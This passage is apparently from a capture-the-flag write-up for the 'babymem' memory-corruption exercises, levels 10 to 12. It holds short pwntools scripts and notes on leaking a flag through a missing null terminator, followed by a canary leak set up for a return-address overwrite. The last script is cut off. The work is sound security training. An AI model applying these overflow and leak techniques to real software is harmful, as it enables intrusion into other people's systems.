 ```python
p.sendline('122')
p.send(buf)

p.interactive()
```

## Challenge 10

Tricky. 

The flag is loaded into memory, nothing is printed or given. \
The thing is - the flag is loaded to an address right after the input. Hence, in case we won't terminate our 81-byte payload with a null character, the print messages would yield us the flag:

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/babymem_level10.0'
elf = ELF(BINARY)
addr_main = elf.symbols['main']

p = process(BINARY)

padding = b'A' * 81
new_n_value = b'\x47'
buf = padding
p.sendline(str(len(buf)))
p.send(buf)

p.interactive()
```

## Challenge 11

Now the program `mmap`s the flag to a dynamic address. \
Thankfully, the input buffer is also mmaped to an address, 0x4000 bytes prior to the flag.

Hence, the same trick of setting 0x4000 non-null characters works. 

## Challenge 12

Canary, PIE, ASLR, simple BOF with no leak. \
However, by writing `REPEAT` we can execute the challenge once again. 

Therefore, I've run a phase to leak the canary, and another phase for the return address overwrite:

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/babymem_level12.0'
elf = ELF(BINARY)
addr_main = elf.symbols['main']
addr_win = elf.symbols['win_authed']

p = process(BINARY)

header = b'REPEAT'
buf_1 = header
p.sendline(str(len(buf_1)))
p.send(buf_1)

```